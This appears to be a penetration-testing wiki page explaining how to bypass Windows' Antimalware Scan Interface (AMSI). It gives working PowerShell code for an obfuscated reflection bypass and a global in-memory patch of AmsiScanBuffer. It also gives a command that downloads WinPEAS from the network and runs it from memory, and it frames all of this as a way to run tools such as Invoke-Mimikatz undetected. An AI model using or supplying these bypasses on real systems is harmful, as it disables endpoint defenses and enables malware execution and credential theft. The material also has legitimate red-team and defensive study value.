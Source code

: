 ```yaml
---
description: >-
  Windows's Antimalware Scan Interface (AMSI) tries to protect systems against
  suspicious scripts, but like most things, can easily be bypassed
---
```


# AMSI Bypass

When you run PowerShell code from the command-line, or from a `.ps1` script, AMSI will look at the code and if it finds any malicious-looking code, it will throw a `ScriptContainedMaliciousContent` error and not execute it. When you want to execute your exploit script, this can get in the way.&#x20;

A straightforward way to **test** if AMSI is enabled is to include a string that is always blocked, such as "`Invoke-Mimikatz`".&#x20;

There are many different bypasses that will disable AMSI, without being detected itself. These evolve over time as AMSI blocks more ways, but attackers are quick to find new bypasses by obfuscating certain parts in different ways.&#x20;

There are 2 types of bypasses, as explained clearly in the post below:

{% embed url="https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/" %}
Powershell-only VS global AMSI bypasses explained
{% endembed %}

1. **PowerShell-only**: This only prevents the `ScriptContainedMaliciousContent` check from blocking your exploit, but not anything more. When loading .NET assemblies it might still fail
2. **Global**: Disable all AMSI protections, including .NET assemblies

{% embed url="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell" %}
List of many different known AMSI bypasses that are updated
{% endembed %}

{% embed url="https://amsi.fail/" %}
Automatic PowerShell AMSI bypass generator, creates a new bypass every time
{% endembed %}

Some **PowerShell-only** bypasses like the following will disable AMSI for all future PowerShell commands in that same process:

{% code title="Obfuscated PowerShell-only" %}
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```
{% endcode %}

Afterward, you can successfully run scripts that AMSI would normally block, like `Invoke-Mimikatz`. But with such a bypass not every protection is gone yet. When you load a .NET assembly for example you might receive the following cryptic error:

<figure><img src="../.gitbook/assets/image (3) (4).png" alt=""><figcaption><p>Screenshot from @S3cur3Th1sSh1t when trying to execute something that requires loading a .NET assembly</p></figcaption></figure>

To get past this, we'll need a **global** bypass that disables it completely. If you have done the PowerShell-only bypass already, you don't even need to obfuscate it anymore:

{% code title="Unobfuscated global bypass" %}
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
{% endcode %}

After running this, every AMSI protection should be disabled and you are able to run .NET assemblies again. For example, [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) can be run like this:

```powershell
# Get latest release
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# Download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); 
[winPEAS.Program]::Main("")
```
